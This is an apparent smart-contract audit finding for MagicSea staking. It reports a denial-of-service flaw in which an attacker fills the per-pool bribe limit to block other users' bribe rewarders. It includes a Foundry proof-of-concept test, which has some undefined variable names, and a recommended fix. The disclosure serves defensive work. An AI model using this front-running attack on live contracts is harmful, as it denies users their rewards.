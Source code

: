 Fresh Mint Weasel

Medium

# Attacker can stop others from starting bribe rewarders by creating and initializing others

## Summary
An attacker can DOS the bribe rewarder initialization by initializing other bribe rewarders. This happens because of a limit set in the amount of bribe rewarders the system can handler

## Vulnerability Detail
In the function [bribe](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L226), that is called whe calling [fundAndBribe](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L111) and [bribe](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L132), there's a call to the [onRegister](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/rewarders/BribeRewarder.sol#L255) function in the voter contract. 

```solidity
function _bribe(uint256 startId, uint256 lastId, uint256 amountPerPeriod) internal {
    ...
    IVoter(_caller).onRegister();
    ...
}
```

This function makes a couple of checks when a bribe rewarder period is [initialized](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/Voter.sol#L140-L142).

```solidity
    function onRegister() external override {
        IBribeRewarder rewarder = IBribeRewarder(msg.sender);

        _checkRegisterCaller(rewarder);

        uint256 currentPeriodId = _currentVotingPeriodId;
        (address pool, uint256[] memory periods) = rewarder.getBribePeriods();
        for (uint256 i = 0; i < periods.length; ++i) {
            // TODO check if rewarder token + pool  is already registered

            require(periods[i] >= currentPeriodId, "wrong period");
            require(_bribesPerPriod[periods[i]][pool].length + 1 <= Constants.MAX_BRIBES_PER_POOL, "too much bribes");
            _bribesPerPriod[periods[i]][pool].push(rewarder);
        }
    }
```

One of the validations ensures that the number of bribe rewarders for a given period and pool doesn't exceeds MAX_BRIBES_PER_POOL. An attacker can easily front-run another user's bribeRewarder creation with the same period and pool, while using a different token and not incurring in any expenses. The attacker can do this for any bribe rewarder creation, thus preventing any initialization of that contract reward system.

## Impact

DOS on the bribe rewarder initializationn

## Code Snippet

Add this test code on this [file](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/test/BribeRewarder.t.sol).

```solidity
   function testVoterDOS() public {
        address factoryImpl = address(new RewarderFactory());
        RewarderFactory fact = RewarderFactory(
            address(
                new TransparentUpgradeableProxy2Step(
                    factoryImpl,
                    ProxyAdmin2Step(address(1)),
                    abi.encodeWithSelector(
                        RewarderFactory.initialize.selector, address(this), new uint8[](0), new address[](0)
                    )
                )
            )
        );
        Voter voter = new Voter(IMasterChef(address(0)),IMlumStaking(address(0)),fact);
        
        fact.setRewarderImplementation(
            IRewarderFactory.RewarderType.BribeRewarder, IRewarder(address(new BribeRewarder(address(voter))))
        );

        uint start = 10;
        uint end = 100;
        uint attackEnd = 11;
        address attacker = address(42);
        address user = address(123);
        ERC20Mock atckTkn = new ERC20Mock("Token A", "TA", 18);
        ERC20Mock userTkn = new ERC20Mock("Token A", "TA", 18);

        atckTkn.mint(attacker,100);
        userTkn.mint(user,10000);

        for (uint i=0;i < 5; i++){
            vm.prank(attacker);
            BribeRewarder attck = BribeRewarder(payable(address(factory.createBribeRewarder(IERC20(atckTkn), pool))));
            
            vm.prank(attacker);
            atckTkn.approve(address(attck),100);

            vm.prank(attacker);
            attck.fundAndBribe(start,attackEnd,1);
        }

        vm.prank(user);
        BribeRewarder userRew = BribeRewarder(payable(address(factory.createBribeRewarder(IERC20(userTkn), pool))));
        vm.prank(user);  
        userTkn.approve(address(userRew),10000);
        vm.prank(user);
        vm.expectRevert("too much bribes");
        userRew.fundAndBribe(start,end,1);
    }
```

## Tool used

Manual Review

## Recommendation

Remove the validation for max bribe rewarders or change the conditions to avoid stopping the system.
